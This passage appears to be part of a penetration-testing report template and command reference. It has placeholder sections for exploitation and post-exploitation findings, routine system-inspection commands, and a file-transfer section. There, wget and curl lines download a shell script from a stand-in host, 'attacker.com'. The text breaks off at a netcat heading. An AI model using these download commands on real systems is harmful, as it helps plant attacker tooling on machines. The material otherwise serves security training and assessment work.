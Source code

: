 [Port scan results]
[Service versions]
[Vulnerabilities identified]
```

### Exploitation Steps
```
[Step-by-step exploitation process]
[Proof of concept commands]
```

### Post-Exploitation Findings
```
[User information gathered]
[Network access gained]
[Data accessed]
```

## Recommendations
### Immediate Actions
- [Patch specific vulnerabilities]
- [Remove vulnerable services]
- [Change default credentials]

### Long-term Improvements
- [Implement security monitoring]
- [Regular vulnerability assessments]
- [Security hardening guidelines]
```

## 🔧 Useful Command Reference

### Quick Service Checks
```bash
# Check for listening ports
netstat -tulpn
ss -tulpn

# Check running processes
ps aux
top

# Check installed packages
dpkg -l  # Debian/Ubuntu
rpm -qa  # RedHat/CentOS

# Check scheduled tasks
crontab -l
systemctl list-timers
```

### File Transfer Methods
```bash
# Python HTTP server
python3 -m http.server 8000

# SCP transfer
scp file.txt user@target:/tmp/

# Wget/cURL
wget http://attacker.com/shell.sh
curl -O http://attacker.com/shell.sh

# Netcat file transfer
```